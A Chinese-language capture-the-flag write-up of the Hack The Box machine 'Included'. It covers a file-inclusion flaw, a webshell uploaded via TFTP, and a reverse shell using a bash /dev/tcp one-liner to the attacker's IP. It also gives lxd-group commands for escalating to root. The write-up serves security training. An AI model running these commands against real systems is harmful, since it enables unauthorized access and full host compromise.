# 7x16HTB系列——[Included]文件包含漏洞

## 一、信息收集

1. 端口扫描，发现开放有tcp协议的53、80端口，再扫描一下udp协议的端口，开放有68、69、17331、45247端口

   

   

2. 80端口开放了一个web服务，udp协议的69端口开放有一个tftp服务，先访问一下web服务

   

3. 网站的url存在?file=home.php的形式，如果可能存在漏洞的话，那这就是典型的文件包含，尝试一下包含/etc/passwd

   

4. 包含成功，网站存在文件包含漏洞，可以看到tftp对应的目录是/var/lib/tftpboot

## 二、getshell

1. 利用之前发现的udp 69端口的tftp写入一个webshell

   

2. 用蚁剑尝试连接

   

3. 成功获得webshell，并在/home/mike目录下找到user.txt

   

## 三、权限提升

1. 在网站目录下发现.htaccess和.htpasswd两个文件，cat查看文件内容

   

2. 在.htpasswd发现用户mike的密码，，由于webshell下很多命令执行不了，所以反弹一个shell到kali上

   ```shell
   bash -c 'exec bash -i &>/dev/tcp/10.10.16.9/4444 <&1'
   ```

   

3. 然后切换到用户mike，mike不是su用户，无法使用sudo -l，但mike用户属于lxd用户组，lxd用户组具有高权限，可以通过创建任意镜像，并将当前系统根目录挂载到镜像mnt目录下，然后通过chroot命令即可获取当前系统的root权限

   

   

4. 创建一个alpine镜像，将该镜像导入到lxd中

   - 安装程序包

     ```shell
     sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
     ```

   - 下载、编译工具

     ```shell
     git clone https://github.com/lxc/distrobuilder
     cd distrobuilder
     make
     ```

   - 创建alpine镜像文件

     ``` shell
     mkdir -p $HOME/ContainerImages/alpine/
     cd $HOME/ContainerImages/alpine/
     wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
     sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
     ```

   - 完成后会生成三个文件

     

5. 在kali上开启一个web服务，然后通过这个web服务将上面生成的三个文件上传到目标主机上

   

6. 接着创建alpine镜像

   ```shell
   lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
   lxc image list
   ```

   

7. 将/root挂载到alpine镜像中

   ```shell
   lxc init alpine privesc -c security.privileged=true
   lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
   ```

   

8. 与容器进行交互

   ```shell
   lxc start privesc
   lxc exec privesc /bin/sh
   ```

   

9. 成功获取root权限

   

10. 在/mnt/root/root下找到root.txt

    

    

